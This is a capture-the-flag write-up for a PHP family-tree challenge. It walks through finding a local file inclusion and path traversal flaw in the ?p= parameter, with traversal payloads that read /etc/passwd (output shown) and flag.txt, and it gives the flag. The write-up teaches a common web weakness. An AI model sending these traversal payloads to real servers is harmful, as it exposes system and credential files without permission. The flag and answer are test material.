

<font size="10">Parents ..</font>

8<sup>th</sup> February 2024

​Prepared By: FROST8ytes

​Challenge Author(s): FROST8ytes

​Difficulty: <font color=green>Hard</font>

Flag: `Cyberhax{th3_m0r3_th3_m3rr13r}`

## Synopsis

This challenge contains an interactive family tree and an about page.

## Description

Sometimes our ancestors have more knowledge than we do. Perhaps if we can *reach our root*, we will learn more and get what we are looking for. Maybe our root will know what `flag.txt` contains :)

Flag example: `Cyberhax{3x4mp13_f14g_h3r3}`

Disclaimer: No bruteforce is needed.

## Skills Required

- Basic Google-ing skills
- Critical reading skills

## Skills Learned

- Local File Inclusion (LFI)
- Path Traversal

## Application Overview



### Visiting the Website

The website reveals an interactive family tree with a disabled search bar. It also has an About page.

By clicking the About page, `?p=about.php` is appended to the URL. When we click back to Home, `?p=home.php` is appended to the URL.

This gives a hint that the website is written in PHP.

### Researching Vulnerabilities

By researching common vulnerabilities in PHP websites, specifically for CTFs, we come across [this](https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-lfi-and-bypasses) guide regarding Local File Inclusion. Let's test it out.

### Testing Theory

To test whether the website is vulnerable to LFI or not, we can traverse all the way to root by using relative paths. We can nagivate through parent directories by using `..`.

Let's try to view a common file for Linux (which is what most servers run on). It is `/etc/passwd`. We get the following response after visiting `http://<challenge URL>/?p=../../../../../../etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Since the passwd file is being displayed, we can conclude that the website is vulnerable to LFI. Now, let's retrieve our flag at `http://<challenge URL>/?p=../../../../../../flag.txt`!